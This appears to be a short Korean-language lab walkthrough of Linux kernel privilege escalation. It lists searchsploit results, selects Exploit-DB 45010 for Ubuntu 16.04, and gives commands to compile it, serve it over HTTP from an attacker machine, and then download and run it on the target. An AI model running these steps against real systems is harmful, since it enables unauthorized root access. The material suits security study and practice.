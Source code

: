 ```shell
searchsploit kernel 4.4.0

...
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bound | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Cond | windows_x86-64/local/47170.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                        | linux/local/41886.c
Linux Kernel < 4.10.13 - 'keyctl_set_reqkey_keyring' Local Denial of Service      | linux/dos/42136.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                      | linux/local/43345.c
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation | linux/local/45553.c
Linux Kernel < 4.13.1 - BlueTooth Buffer Overflow (PoC)                           | linux/dos/42762.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation     | linux/local/45010.c
...
```
- `Ubuntu 16.04`, 커널 버전 `4.13.9` 이하인 시스템에서 Privilege Escalation이 가능함을 확인했습니다.

[Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation - Linux local Exploit](https://www.exploit-db.com/exploits/45010)

### local exploitation
```shell
gcc 45010.c -static -o exploit

sudo python3 -m http.server 80
```
- 메인 kali 머신에서 exploit을 빌드하고, http 서버를 실행합니다.

```shell
wget http://192.168.45.231/exploit
chmod +x exploit
./exploit
```
- 타겟 머신에서 exploit을 받아온 후 실행합니다.

